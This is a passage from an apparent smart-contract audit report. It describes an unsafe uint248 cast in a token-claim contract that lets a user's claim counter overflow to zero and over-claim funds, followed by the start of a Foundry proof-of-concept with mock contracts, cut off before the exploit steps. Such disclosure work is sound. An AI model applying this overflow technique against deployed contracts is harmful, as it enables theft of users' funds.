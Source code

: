 The `toBeClaimed` amount can legitimately exceed `type(uint248).max`, especially when a user is eligible for a loyalty bonus on top of their `maxTokenAmount`. When this occurs, `userState.claimed` overflows.  
For instance, if `toBeClaimed` is `type(uint248).max + 1`, the new stored value will be `0`, effectively resetting the user's claim history and allowing them to steal funds.

## 3. Proof of Concept

The following validated Proof of Concept demonstrates the exploit. A `MockClaim` contract isolates the vulnerable logic and proves that a user can claim more than their total allocation by triggering the overflow.

```solidity
// File: test/PoCUnsafeCast.t.sol
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
// (imports truncated for brevity)

contract MintableERC20 is ERC20 {
    constructor() ERC20("Mock Token", "MTK") {}
    function mint(address to, uint256 amount) public { _mint(to, amount); }
}

contract StubRegistry is IDelegateRegistry {
    // All functions return default values
    function checkDelegateForContract(address,address,address,bytes32) external view returns (bool) { return false; }
    function checkDelegateForAll(address,address,bytes32) external view returns (bool) { return false; }
    function checkDelegateForERC721(address,address,address,uint256,bytes32) external view returns (bool) { return false; }
    function checkDelegateForERC20(address,address,address,bytes32) external view returns (uint256) { return 0; }
    function checkDelegateForERC1155(address,address,address,uint256,bytes32) external view returns (uint256) { return 0; }
    // other stubbed functions omitted
}

contract MockClaim is IBUILDClaim, ITypeAndVersion, ReentrancyGuard {
    using SafeERC20 for IERC20;
    string public constant override typeAndVersion = "MockClaim 1.0.0";

    mapping(address => mapping(uint256 => UserState)) private s_userStates;
    mapping(uint256 => IBUILDClaim.GlobalState) private s_globalStates;
    IERC20 private immutable i_token;

    constructor(address token) { i_token = IERC20(token); }

    // --- interface helpers (truncated) ---

    function claim(address user, IBUILDClaim.ClaimParams[] calldata params) external override nonReentrant {
        _claim(user, params);
    }

    /* ---------- internal ---------- */

    function _claim(address user, IBUILDClaim.ClaimParams[] calldata params) private {
        uint256 totalClaimAmount;
        for (uint256 i; i < params.length; ++i) {
            totalClaimAmount += _processClaim(user, params[i]);
```